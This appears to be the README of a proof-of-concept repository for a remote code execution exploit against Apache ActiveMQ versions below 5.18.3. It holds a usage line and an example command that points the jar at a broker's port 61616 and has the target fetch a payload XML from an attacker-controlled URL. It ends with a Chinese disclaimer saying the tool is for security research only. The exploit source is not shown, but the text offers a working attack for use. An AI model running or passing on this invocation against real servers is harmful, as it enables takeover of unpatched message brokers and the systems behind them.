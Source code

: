# activemq_poc
Apache ActiveMQ (版本 &lt; 5.18.3) RCE

使用jdk11
 ![image](https://github.com/Fw-fW-fw/activemq_Throwable/assets/66824584/19b1ea37-1657-42af-b7a8-f1b8d59c75b8)

Usage: java activemq_poc.jar <ip> <port> <urlfile_xmlpoc>

eg: java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8000/poc.xml

免责声明： 本工具仅供安全研究使用，请勿利用从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
